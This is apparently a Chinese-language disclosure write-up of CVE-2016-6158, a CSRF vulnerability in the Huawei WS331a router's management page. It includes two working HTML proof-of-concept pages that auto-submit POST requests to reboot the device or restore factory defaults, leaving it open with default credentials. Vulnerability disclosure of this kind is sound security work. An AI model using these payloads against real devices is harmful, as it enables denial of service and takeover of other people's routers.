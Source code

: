 ### 漏洞简介  

#### 漏洞概述  

> 华为WS331a 是一款便携无线路由器。
> WS331a产品的管理页面中存在一个CSRF漏洞，未经过认证的攻击者可以利用此漏洞发起CSRF攻击。成功利用此漏洞，攻击者可以向受影响设备提交特定请求进而导致设备恢复出厂设置或者重启。 (漏洞编号:HWPSIRT-2016-07078)
> 此漏洞的CVE编号为：CVE-2016-6158。  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|华为WS331a产品管理页面存在CSRF漏洞|2016-09-07|zixian（me@zixian.org）|[http://www.huawei.com/](http://www.huawei.com/) | [http://www.huawei.com/](http://www.huawei.com/) |WS331a-10 V100R001C02B017SP01及之前版本 | [CVE-2016-6158](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-6158)|

### POC实现代码如下：  

> 当管理员登陆后，打开如下poc页面，WS331a设备将重启。
``` html
<form action="http://192.168.3.1/api/service/reboot.cgi" method="post">
</form>
<script> document.forms[0].submit(); </script>
```
> 当管理员登陆后，打开如下poc页面，WS331a设备将恢复初始化配置。设备自动重启后不需要密码即可连接热点，并使用amdin/admin对设备进行管理控制。   

```html
<form action="http://192.168.3.1/api/service/restoredefcfg.cgi" method="post">
</form>
<script> document.forms[0].submit(); </script>
```